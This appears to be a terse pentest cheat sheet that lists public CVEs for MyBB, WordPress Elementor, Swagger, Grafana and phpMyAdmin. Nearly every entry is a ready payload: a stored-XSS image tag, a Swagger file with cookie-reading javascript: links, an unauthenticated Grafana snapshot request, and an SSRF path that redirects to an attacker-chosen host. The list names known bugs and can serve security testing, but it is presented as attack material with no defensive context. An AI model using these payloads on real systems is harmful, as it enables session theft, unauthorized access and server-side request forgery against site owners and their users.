 #MyBB:

**(CVE-2021-27889)** MyBB forum stored XSS POC: ``[img]http://xyzsomething.com/image?)http://x.com/onerror=alert(1);//[/img]``

#Wordpress:

**(CVE-2021-24175)** WP plugin Elementor Page Builder:
https://wpscan.com/vulnerability/c311feef-7041-4c21-9525-132b9bd32f89

#Swagger:

**(CVE-unknown)** XSS old versions (file.json content):

``swagger: "2.0",
info: 
  title: "Swagger Sample App",
  description: "Please to click Terms of service"
  termsOfService: "javascript:alert(document.cookie)"
  contact: 
    name: "API Support",
    url: "javascript:alert(document.cookie)",
    email: "javascript:alert(document.cookie)"
  version: "1.0.1"``

#Grafana:

**(CVE-2019-15043) Unauthenticated API access:**

``POST /api/snapshots``
``{"dashboard": {"editable":false,"hideControls":true,"nav":[{"enable":false,"type":"timepicker"}],"rows": [{}],"style":"dark","tags":[],"templating":{"list":[]},"time":{},"timezone":"browser","title":"Home","version":5},"expires": 3600}``

**(CVE-2020-13379) SSRF:**

``/avatar/test%3fd%3dredirect.rhynorater.com%25253f%253b%252fbp.blogspot.com%252fYOURHOSTHERE``

#Phpmyadmin:

/phpmyadmin/setup/
